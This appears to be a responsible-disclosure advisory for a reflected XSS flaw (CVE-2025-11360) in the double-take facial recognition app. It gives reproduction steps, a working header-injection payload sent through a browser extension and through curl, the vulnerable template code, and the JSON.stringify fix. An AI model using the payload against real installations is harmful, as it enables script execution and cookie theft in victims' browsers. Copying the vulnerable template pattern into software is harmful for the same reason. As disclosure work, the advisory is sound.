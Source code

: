 # CVE-2025-11360 - XSS in 'Double-Take' Facial Recognition Software

Unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in version <=1.13.1 of double-take: https://github.com/jakowenko/double-take and https://hub.docker.com/r/jakowenko/double-take.
The maintainer fixed the vulnerability in version 1.13.2 after I responsibly disclosed the issue to him.

Specifically, the vulnerability is located in the `api/src/app.js` file, which evaluates unsanitized HTTP GET headers passed via the `'X-Ingress-Path'` header.
This allows an attacker to inject arbitrary JavaScript into the response, resulting in reflected XSS when the UI is accessed with a malicious header present.

## Affected Versions:
double-take <=1.13.1, github commit: 8e2728d283b3901d688c2454086fd0b512739b53

## Fixed Version:
double-take 1.13.2, github commit: 92521a0bc8ba70f64c4f794332d48387663ba20e

## CVSS v3.1 Score: 4.3 (Medium)
Vector: CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N

## Proof of Concept and Steps to Reproduce:

1. Download "Double Take" <=1.13.1:
```
https://github.com/jakowenko/double-take/archive/refs/tags/v1.13.1.zip
cd double-take-1.13.1
```
2. Point docker-compose.yml to version 1.13.1:

`docker-compose.yml`
```
version: '3.7'

volumes:
  double-take:

services:
  double-take:
    container_name: double-take
    image: jakowenko/double-take:1.13.1
    restart: unless-stopped
    volumes:
      - double-take:/.storage
    ports:
      - 3000:3000
```

3. Start "Double Take" using docker compose:
```docker compose up -d```

5. Set the following HTTP header in Chrome (via the ModHeader extension or similar):
```X-Ingress-Path: ';window.onload = function() { alert(1); }//```


6. Visit the Double-Take UI in a browser:
```http://localhost:3000```

You will see a JavaScript popup alert - confirming JavaScript execution.

6. Alternatively, executing via curl demonstrates that the windows.ingressUrl parameter populates with the payload:
```curl -H "X-Ingress-Path: ');window.onload = function() { alert(1); }//" http://localhost:3000/```


## Impact:
This vulnerability is an example of Unauthenticated Reflected XSS. An attacker who compromises this flaw could execute arbitrary JavaScript in a victim's browser session, steal session cookies or authentication tokens,
extract sensitive information, or impersonate users to deliver social engineering attacks. This particular exploit requires header injection (via `X-Ingress-Path`),
but it still can be exploited in the wild via misconfigured reverse proxies, malicious browser extensions, or insecure internal tooling that injects headers. Exploiting this vulnerability via a proxy is particularly dangerous since double take is often used in home lab setups, where users setup reverse proxies to access their servers from outside of their own network. A compromised proxy could trivially exploit this vulnerability for arbitrary user requests being sent to the internal server double take runs on.

## Remediation:
The core vulnerability stems from the html.replace() function (lines 27-34) in `double-take/api/src/app.js`:

    html.replace(
      '</head>',
      `<script>
        window.ingressUrl = '${req.headers['x-ingress-path'] || ''}';
        window.publicPath = '${UI?.PATH || ''}';
      </script>
      </head>`
    )

This function directly embeds unsanitized input from the `X-Ingress-Path` header of a `GET` request into a JavaScript `<script>` block. 
In order to prevent this exploit, I recommended safely escaping values with a function like `JSON.stringify()`:

```
const ingressUrlSafe = JSON.stringify(req.headers['x-ingress-path'] || '');
const publicPathSafe = JSON.stringify(UI?.PATH || '');

res.send(
  html.replace(
    '</head>',
    `<script>
      window.ingressUrl = ${ingressUrlSafe};
      window.publicPath = ${publicPathSafe};
    </script>
    </head>`
  )
);
```

The project maintainer implemented my fix in v1.13.2, as can be seen in the commit comment history on github (92521a0bc8ba70f64c4f794332d48387663ba20e).
